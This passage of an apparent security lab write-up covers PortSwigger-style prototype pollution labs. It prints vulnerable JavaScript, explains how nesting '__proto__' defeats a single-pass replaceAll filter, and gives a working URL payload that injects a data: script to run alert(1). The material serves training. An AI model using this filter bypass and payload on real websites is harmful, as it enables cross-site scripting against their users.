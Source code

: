 The subtracting of 1 does not matter since the function is called.

## Lab 4: Flawed Sanitisation

To solve this lab, call `alert(1)`. Here's the `searchLogger()` function:

```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

There is a sanitisation check, and keywords like `__proto__` aren't allowed. This uses `replaceAll`, which only **executes once AND does not stop the execution**. As such, using `__pro__proto__to__` works. The code strips away the middle `__proto__`, and then the rest of the string is combined to form `__proto__` (similar to using `....//`)

Here's the payload to solve the lab:

```
/?__pro__proto__to__[transport_url]=data:text/javascript,alert(1)
```

## Lab 5: Third-Party Library

This lab recommends I use DOM Invader, because the third-party library has minified code.

Here are the libraries used:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-10.png)

Firstly, the `jquery_ba_bbq.js` file is obviously the vulnerable one. When viewing it, it was made in 2010.
